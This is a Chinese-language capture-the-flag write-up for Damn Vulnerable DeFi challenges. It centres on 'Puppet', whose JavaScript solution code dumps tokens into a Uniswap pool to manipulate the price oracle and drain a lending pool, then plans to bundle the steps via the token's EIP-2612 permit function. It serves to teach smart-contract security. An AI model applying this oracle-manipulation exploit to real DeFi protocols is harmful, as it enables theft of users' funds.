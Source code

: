 ```javascript
```

注意以下几点：

1. 提前给预言机器oracle1、oracle2转账
2. 通过callStatic模拟执行结果，提前获取id

   或者使用

   ```javascript
   const tx3 = await exchange.connect(player).buyOne({value:ethers.utils.parseEther('0.0001')});
   const receipt = await tx3.wait();
   const id =await receipt.events[1].args.tokenId;
   ```
3. 结束以后将价格改回来

<hr />

# 8. Puppet

解决思路：

要通过质押取出所有的通证，结果很简单，就是先“砸盘”，再存入并借款（通常情况下，又需要买回原来的“砸盘”保证筹码不失）。

如果仅由分步进行:

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        await token.connect(player).approve(uniswapExchange.address,PLAYER_INITIAL_TOKEN_BALANCE);
        await uniswapExchange.connect(player).tokenToEthSwapInput(
            PLAYER_INITIAL_TOKEN_BALANCE,
            1,
            (await ethers.provider.getBlock('latest')).timestamp * 2,   // deadline
        );
        const valueDeposit = await lendingPool.callStatic.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE,player.address,{value:valueDeposit});
        await uniswapExchange.connect(player).ethToTokenSwapOutput(
            PLAYER_INITIAL_TOKEN_BALANCE,
            (await ethers.provider.getBlock('latest')).timestamp * 3,   // deadline
            {value : UNISWAP_INITIAL_ETH_RESERVE + 1n}
        );
        
    });
```

然而，这不满足要求`        // expect(await ethers.provider.getTransactionCount(player.address)).to.eq(1);`

将攻击分成好几步，一次一次来，是不是觉得MEV看不到？所以这里还需要将以上步骤都打包，通过合约进行，并在合约创建过程中完成。这里就有一个问题了：`approve`操作该怎么办，能一步完成吗？

查询了一下所用的ERC20，里面多了一个函数`permit`:

```solidity
    /*//////////////////////////////////////////////////////////////
                             EIP-2612 LOGIC
    //////////////////////////////////////////////////////////////*/

    function permit(
        address owner,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) public virtual {
        require(deadline >= block.timestamp, "PERMIT_DEADLINE_EXPIRED");
```